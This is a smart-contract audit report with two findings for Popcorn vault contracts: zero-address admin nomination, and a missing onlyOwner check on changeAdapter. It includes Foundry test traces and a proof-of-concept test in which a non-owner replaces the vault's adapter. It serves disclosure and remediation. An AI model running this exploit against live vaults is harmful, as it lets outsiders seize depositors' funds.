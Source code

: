 Finding #1
Should not nominate new admin proxy to address zero, add this test to `test.vault.VaultController.t.sol`:
```
   function test__nominateZeroAddressNewAdminProxyOwner() public {
        controller.nominateNewAdminProxyOwner(address(0));
        assertEq(adminProxy.nominatedOwner(), address(0));
    }
```

 Test output:
```
 ~/latest/2023-01-popcorn │ on main !1 ?1  forge test --match-path test/vault/VaultController.t.sol --match-test "test__nominateZeroAddressNewAdminProxyOwner" -vvvv                              ✔ │ took 8s │ at 23:48:33 
[⠒] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/VaultController.t.sol:VaultControllerTest
[PASS] test__nominateZeroAddressNewAdminProxyOwner() (gas: 21579)
Traces:
  [21579] VaultControllerTest::test__nominateZeroAddressNewAdminProxyOwner() 
    ├─ [13287] VaultController::nominateNewAdminProxyOwner(0x0000000000000000000000000000000000000000) 
    │   ├─ [5766] AdminProxy::nominateNewOwner(0x0000000000000000000000000000000000000000) 
    │   │   ├─ emit OwnerNominated(newOwner: 0x0000000000000000000000000000000000000000)
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ [359] AdminProxy::nominatedOwner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000000
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

Finding #2
Missing `onlyOwner` modifier on `src.vault.Vault.changeAdapter` allows anyone to set a new Adapter for this Vault after the quit period has passed. The existing test in `test.vault.Vault.testFail__changeAdapter_NonOwner` is incorrectly implemented to verify the issue and fails on `NotPassedQuitPeriod` rather than properly catching the error of lack of ownership, e.g.
```
~/se/currents/latest/2023-01-popcorn │ on main !2 ?1  forge test --match-path test/vault/Vault.t.sol --match-test "testFail__changeAdapter_NonOwner" -vvvv

[⠊] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/Vault.t.sol:VaultTest
[PASS] testFail__changeAdapter_NonOwner() (gas: 32770)
Traces:
  [32770] VaultTest::testFail__changeAdapter_NonOwner() 
    ├─ [0] VM::prank(alice: [0x000000000000000000000000000000000000ABcD]) 
    │   └─ ← ()
    ├─ [22509] vault::changeAdapter() 
    │   ├─ [2640] MockERC4626::balanceOf(vault: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a]) [staticcall]
    │   │   └─ ← 0
    │   ├─ [2523] MockERC4626::convertToAssets(0) [staticcall]
    │   │   └─ ← 0
    │   └─ ← "NotPassedQuitPeriod(259200)"
    └─ ← "NotPassedQuitPeriod(259200)"

Test result: ok. 1 passed; 0 failed; finished in 3.50ms
```
PoC:
```  function test__anyoneCanChangeAdapterAfterNewWasProposed() public {
    // Missing onlyOwner modifier allows anyone to Set a new Adapter for this Vault after the quit period has passed.
    MockERC4626 newAdapter = new MockERC4626(IERC20(address(asset)), "Mock Token Vault", "vwTKN");
    uint256 depositAmount = 1 ether;

    // Deposit funds for testing
    asset.mint(alice, depositAmount);
    vm.startPrank(alice);
    asset.approve(address(vault), depositAmount);
    vault.deposit(depositAmount, alice);
    vm.stopPrank();

    // Increase assets in asset Adapter to check hwm and assetCheckpoint later
    asset.mint(address(adapter), depositAmount);
    vault.takeManagementAndPerformanceFees();

    // Preparation to change the adapter
    vault.proposeAdapter(IERC4626(address(newAdapter)));

    vm.warp(block.timestamp + 3 days);

    vm.expectEmit(false, false, false, true, address(vault));
    emit ChangedAdapter(IERC4626(address(adapter)), IERC4626(address(newAdapter)));
    
    vm.startPrank(bob);
    vault.changeAdapter();
    vm.stopPrank();

  }
```

Recommendation: add `onlyOwner` modifier to `changeAdapter` function and refactor `testFail__changeAdapter_NonOwner`


